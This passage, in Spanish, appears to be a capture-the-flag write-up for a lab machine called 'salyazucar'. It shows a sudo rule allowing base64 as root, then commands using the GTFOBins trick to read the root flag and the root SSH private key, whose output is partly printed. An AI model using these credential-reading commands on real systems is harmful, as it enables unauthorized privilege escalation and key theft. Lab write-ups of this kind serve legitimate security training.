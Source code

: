 
<h2 id="base64">Escalando Privilegios Robando la Llave Privada del Servicio SSH con Binario base64</h2>

Veamos qué privilegios tiene nuestro usuario:
```bash
info@salyazucar:/home/info$ sudo -l
Matching Defaults entries for info on salyazucar:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User info may run the following commands on salyazucar:
    (root) NOPASSWD: /usr/bin/base64
```
Excelente, podemos usar el binario **base64** como **Root**.

Al buscar en la **guía de GTFOBins**, encontramos una forma de abusar de este binario para escalar privilegios:
* <a href="https://gtfobins.github.io/gtfobins/base64/" target="_blank">GTFOBIns: base64</a> 

Aquí la muestro:

<p align="center">
<img src="/assets/images/THL-writeup-salYazucar/Captura3.png">
</p>

Prácticamente, podemos codificar y decodificar cualquier archivo en **base64**, siendo posible leer su contenido.

Por ejemplo, sabemos que existe la flag del **Root** dentro de un archivo que se llama **root.txt** y se encuentra en el directorio del **Root**.

Entonces, vamos a utilizar la ruta de este archivo para poder leerlo:
```bash
info@salyazucar:/home/info$ LFILE=/root/root.txt
info@salyazucar:/home/info$ sudo base64 "$LFILE" | base64 --decode
...
```
Funcionó.

Digamos que existe una llave privada dentro del directorio `/root/.ssh`.

Si existe, podemos obtenerla de la misma forma que obtuvimos la flag del **Root**:
```bash
info@salyazucar:/home/info$ LFILE=/root/.ssh/id_rsa
info@salyazucar:/home/info$ sudo base64 "$LFILE" | base64 --decode
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABAYM4t5Uq
...
```
Muy bien, tenemos la **llave privada id_rsa**. Cópiala y guárdala en tu máquina con el nombre **id_rsa**.
